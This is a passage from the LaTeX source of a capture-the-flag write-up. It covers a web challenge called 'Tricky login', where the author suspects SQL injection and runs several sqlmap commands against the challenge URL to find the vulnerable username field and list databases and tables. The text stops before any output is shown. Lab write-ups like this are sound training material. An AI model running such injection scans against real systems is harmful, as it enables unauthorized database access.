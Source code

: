 \section{Web hacking}

\subsection{Unicorn 1 (100p)}
\newpage
\subsection{Tricky login (100p)}
\addtocounter{points}{100}
Well, this is a tricky login here: 
\\\url{http://julie2.hackingarena.no:803}

\textbf{Solution:}\\
When trying to login with the username \texttt{admin} and a random password I noticed that I got a output on the site. This indicated that the site might be vulnerable to an SQL injection.

\begin{center}
    \includegraphics[width=11cm]{img/Web hacking/Tricky login/Screenshot 2023-11-24 at 16.20.45.png}
\end{center}

Using sqlmap i tried to check for vulnerabilities with the command \\\texttt{sqlmap -u "http://julie2.hackingarena.no:803" --data="username=admin\&passwd=pass"}
but that didn't result in anything. So I tried to increase the level of the test with the command 
\\\texttt{sqlmap -u "http://julie2.hackingarena.no:803" --data="username=admin\&passwd=pass" --level=2} 
and that resulted in finding a vulnerability in the username field.
I then ran the command
\\\texttt{sqlmap -u "http://julie2.hackingarena.no:803" --current-db  --data="username=admin" --tables}
to find the name of the database and the tables in it. 
This resulted in the following output:

